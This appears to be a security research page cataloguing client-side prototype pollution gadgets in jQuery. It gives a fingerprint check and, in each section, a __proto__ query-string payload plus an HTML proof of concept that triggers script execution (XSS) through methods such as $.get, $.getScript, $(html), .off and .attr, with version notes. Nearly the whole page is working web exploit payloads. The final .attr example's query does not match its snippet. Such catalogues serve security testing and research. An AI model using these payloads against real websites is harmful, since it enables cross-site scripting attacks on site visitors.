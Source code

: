 ## jQuery 

URL: https://jquery.com/

### JS Fingerprint
```
return (typeof $ !== 'undefined' && typeof $.fn !== 'undefined' && typeof $.fn.jquery !== 'undefined')
```

### PoC

#### $(x).off jQuery all versions

* Can be exploited through String.prototype

```
?__proto__[preventDefault]=x&__proto__[handleObj]=x&__proto__[delegateTarget]=<img/src/onerror%3dalert(document.domain)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.preventDefault='x'
  Object.prototype.handleObj='x'
  Object.prototype.delegateTarget='<img/src/onerror=alert(1)>'
  /* No extra code needed for jQuery 1 & 2 */
  $(document).off('foobar');
</script>
```

#### $(html) jQuery all versions

```
?__proto__[div][0]=1&__proto__[div][1]=<img src onerror%3dalert(1)>
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.div=['1','<img src onerror=alert(1)>']
</script>
<script>
  $('<div x="x"></div>')
</script>
```

#### $.get jQuery >= 3.0.0

* Also can be used for $.post, $.ajax, $.getJSON
* Can be exploited through Boolean.prototype

```
?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script> 
  Object.prototype.url = ['data:,alert(1)//'];   
  Object.prototype.dataType = 'script';
</script>      
<script>
  $.get('https://google.com/'); 
  $.post('https://google.com/'); 
</script>
```

#### $.getScript jQuery >= 3.4.0
```
?__proto__[src][]=data:,alert(1)//
```

```html
<script src=https://code.jquery.com/jquery-3.5.1.js></script>
<script>
  Object.prototype.src = ['data:,alert(1)//']
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.getScript jQuery 3.0.0 - 3.3.1

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//
```

```html
<script/src=https://code.jquery.com/jquery-3.3.1.js></script>
<script>
  Object.prototype.url = 'data:,alert(1)//'
</script>
<script>
  $.getScript('https://google.com/')
</script>
```

#### $.get jQuery all versions

```
?__proto__[context]=<img/src/onerror%3dalert(1)>&__proto__[jquery]=x
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/1.10.0/jquery.js></script>
<script> 
  Object.prototype.context = '<img/src/onerror=alert(1)>';
  Object.prototype.jquery = 'x';
</script>      
<script>
  jQuery.get('http://google.com/');
</script>
```

#### $.get jQuery >= 3.0.0

* Can be exploited through Boolean.prototype

```
?__proto__[url]=data:,alert(1)//&__proto__[dataType]=script&__proto__[crossDomain]=
```

```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script> 
  Object.prototype.url = 'data:,alert(1)//';
  Object.prototype.dataType = 'script';   
  Object.prototype.crossDomain = '';
</script>      
<script>
  $.get('http://google.com/'); 
  $.post('http://google.com/'); 
</script>
```

### $(x).attr jQuery (Unknown versions, need testing)

* Can be exploited through String.prototype
* Sets the attribute of an element

```
?__proto__[Onload]=alert(1)
```

```html
<img id="test" src=realimage.jpg>
<script src=https://cdnjs.cloudflare.com/ajax/libs/jquery/3.6.0/jquery.js></script>
<script>
  Object.prototype.OnError = 'alert(1)';
  Object.prototype.SRC = 'fakeimagewontload.jpg';
</script>
<script>
$('#test').attr({"width":"100%"}) // The {} is being polluted with extra attributes
</script>
```
